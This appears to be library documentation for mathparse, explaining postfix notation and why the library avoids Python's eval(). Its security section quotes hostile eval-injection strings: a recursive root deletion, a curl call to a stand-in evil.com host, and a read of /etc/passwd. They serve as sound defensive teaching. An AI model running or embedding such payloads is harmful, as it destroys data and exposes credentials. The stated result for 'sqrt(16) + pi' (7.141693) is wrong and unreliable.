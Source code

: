 Postfix
=======

The postfix notation, also known as `Reverse Polish Notation (RPN)`_, is a mathematical notation in which every operator follows all of its operands.
It is used in mathparse to evaluate expressions efficiently and safely.

Notably, mathparse does not employ the use of Python's :py:func:`eval` function when evaluating provided mathematical expressions.
This is a measure to prevent arbitrary code execution vulnerabilities.

Postfix Notation
----------------

In postfix notation, mathematical operators are placed after their operands, eliminating the need for parentheses to specify the order of operations. This permits evaluation using a stack-based algorithm.

Basic Examples
~~~~~~~~~~~~~~

Some examples comparing infix and postfix notation are as follows:

.. list-table:: Infix vs Postfix Examples
   :widths: 40 40 20
   :header-rows: 1

   * - Infix Expression
     - Postfix Expression
     - Result
   * - ``3 + 4``
     - ``3 4 +``
     - ``7``
   * - ``5 * (2 + 3)``
     - ``5 2 3 + *``
     - ``25``
   * - ``(8 - 3) * 2``
     - ``8 3 - 2 *``
     - ``10``
   * - ``6 / 2 + 1``
     - ``6 2 / 1 +``
     - ``4``

Stack-Based Evaluation
~~~~~~~~~~~~~~~~~~~~~~

Postfix expressions are evaluated using a stack:

1. **Scan from left to right**: Process each token in the expression
2. **Numbers**: Push numbers onto the stack
3. **Operators**: Pop required operands from stack, apply operation, push result back
4. **Final result**: The remaining value on the stack is the answer

Example evaluation of ``3 4 + 2 *``:

.. code-block:: text

   Token: 3    Stack: [3]
   Token: 4    Stack: [3, 4]
   Token: +    Stack: [7]          (pop 4, pop 3, push 3+4=7)
   Token: 2    Stack: [7, 2]
   Token: *    Stack: [14]         (pop 2, pop 7, push 7*2=14)
   Result: 14

Postfix vs Infix Notation
--------------------------

Understanding the differences between postfix and infix notation helps explain why mathparse uses the postfix approach.

Infix Notation (Traditional)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Advantages:**
- Natural and intuitive for humans
- Matches mathematical conventions
- Easy to read and write

**Disadvantages:**
- Requires parentheses for complex expressions
- Needs operator precedence rules (PEMDAS/BODMAS)
- More complex to parse and evaluate programmatically
- Ambiguity without proper precedence handling

**Example challenges:**
- ``2 + 3 * 4`` could be interpreted as ``(2 + 3) * 4 = 20`` or ``2 + (3 * 4) = 14``
- ``a - b + c`` requires left-to-right evaluation rules

Postfix Notation (RPN)
~~~~~~~~~~~~~~~~~~~~~~

**Advantages:**
- No parentheses needed - order is explicit
- No operator precedence rules required
- Simple, efficient evaluation algorithm
- Unambiguous expression evaluation
- Natural fit for stack-based computation

**Disadvantages:**
- Less intuitive for humans initially
- Requires learning a different notation system

**Why mathparse uses postfix:**

1. **Simplicity**: Stack-based evaluation is straightforward and reliable
2. **Efficiency**: Linear time complexity with minimal memory overhead
3. **Safety**: No need for complex parsing that could introduce vulnerabilities
4. **Correctness**: Eliminates ambiguity in expression evaluation

Implementation in mathparse
~~~~~~~~~~~~~~~~~~~~~~~~~~~

The mathparse library converts infix expressions to postfix using the `Shunting-yard algorithm`_:

.. code-block:: python

   # Example: "3 + 4 * 2" becomes [3, 4, 2, '*', '+']
   tokens = tokenize("3 + 4 * 2")           # ['3', '+', '4', '*', '2']
   postfix = to_postfix(tokens)             # [3, 4, 2, '*', '+']
   result = evaluate_postfix(postfix)       # 11

The conversion process respects operator precedence:
- Higher precedence: ``^`` (exponentiation), ``*``, ``/`` 
- Lower precedence: ``+``, ``-``
- Parentheses override natural precedence


Security: Avoiding eval() Vulnerabilities  
-----------------------------------------

One of the key design decisions in mathparse is avoiding Python's :py:func:`eval` function, which poses significant security risks.

The eval() Security Problem
~~~~~~~~~~~~~~~~~~~~~~~~~~~

Python's :py:func:`eval` function executes arbitrary Python code, making it dangerous for processing untrusted input:

**Dangerous examples:**

.. code-block:: python

   # These could execute malicious code:
   eval("__import__('os').system('rm -rf /')")                  # Delete files
   eval("__import__('subprocess').call(['curl', 'evil.com'])")  # Network access
   eval("open('/etc/passwd').read()")                           # Read sensitive files

**Why eval() is problematic:**

- **Arbitrary code execution**: Any Python code can be run
- **System access**: File system, network, and system calls available  
- **Privilege escalation**: Runs with the application's permissions
- **Hard to sanitize**: Input filtering is complex and error-prone
- **Supply chain attacks**: Malicious expressions can be injected

Common Attempted "Solutions"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Several approaches are often tried to make :py:func:`eval` "safe," but all have significant flaws:

**Restricted globals/locals:**

.. code-block:: python

   # Still vulnerable!
   eval(expression, {"__builtins__": {}}, {})

*Problem*: Python's introspection allows access to dangerous functions through object attributes.

**Input validation/filtering:**

.. code-block:: python

   # Blacklist approach - easily bypassed
   if 'import' not in expression and 'exec' not in expression:
       result = eval(expression)

*Problem*: Blacklists are incomplete and can be circumvented with encoding, obfuscation, or alternative access methods.

**Sandboxing:**

.. code-block:: python

   # Complex sandboxing attempts
   safe_dict = {'__builtins__': {'abs': abs, 'max': max}}
   result = eval(expression, safe_dict)

*Problem*: Python's dynamic nature makes true sandboxing extremely difficult and often broken.

mathparse's Safe Approach  
~~~~~~~~~~~~~~~~~~~~~~~~~

Instead of trying to make :py:func:`eval` safe, mathparse implements a purpose-built mathematical expression evaluator:

**Safe parsing pipeline:**

1. **Tokenization**: Break input into mathematical tokens only
2. **Validation**: Each token is checked against allowed mathematical symbols
3. **Conversion**: Transform to postfix notation using known algorithms
4. **Evaluation**: Use stack-based evaluation with predefined operations

**Security benefits:**

.. code-block:: python

   # mathparse only recognizes mathematical operations
   parse("2 + 3 * 4")                     # ✓ Returns 14
   parse("sqrt(16) + pi")                 # ✓ Returns 7.141693
   parse("__import__('os').system('ls')") # ✓ Raises PostfixTokenEvaluationException

**Allowed operations only:**

- **Numbers**: Integers, floats, and mathematical constants (``pi``, ``e``)
- **Binary operators**: ``+``, ``-``, ``*``, ``/``, ``^``
- **Unary functions**: ``sqrt``, ``log`` 
- **Grouping**: Parentheses for expression grouping
- **Word parsing**: Mathematical terms in various languages

**What's explicitly prevented:**

- Function calls (except predefined math functions)
- Variable assignments or access
- Import statements or module access
- File system operations
- Network operations
- Any non-mathematical operations

General Recommendations
~~~~~~~~~~~~~~~~~~~~~~~

When building applications that evaluate user-provided mathematical expressions:

1. **Use purpose-built parsers**: Like mathparse for mathematical expressions
2. **Validate input early**: Check tokens against allowed operations
3. **Limit complexity**: Set bounds on expression depth and length

Example secure usage:

.. code-block:: python

   def safe_calculate(user_input):
       try:
           # mathparse safely evaluates mathematical expressions
           result = parse(user_input)
           return result
       except PostfixTokenEvaluationException as e:
           # Handle mathematical errors appropriately
           return f"Invalid expression: {e}"
       except Exception as e:
           # Log unexpected errors for debugging
           logger.error(f"Unexpected error: {e}")
           return "Calculation failed"

   # Safe examples:
   safe_calculate("2 + 3 * 4")           # Returns 14
   safe_calculate("malicious_code()")    # Returns "Invalid expression: ..."

By using postfix notation and avoiding :py:func:`eval`, mathparse provides a secure, efficient, and reliable way to evaluate mathematical expressions from untrusted sources.

.. _`Reverse Polish Notation (RPN)`: https://en.wikipedia.org/wiki/Reverse_Polish_notation

.. _`Shunting-yard algorithm`: https://en.wikipedia.org/wiki/Shunting-yard_algorithm
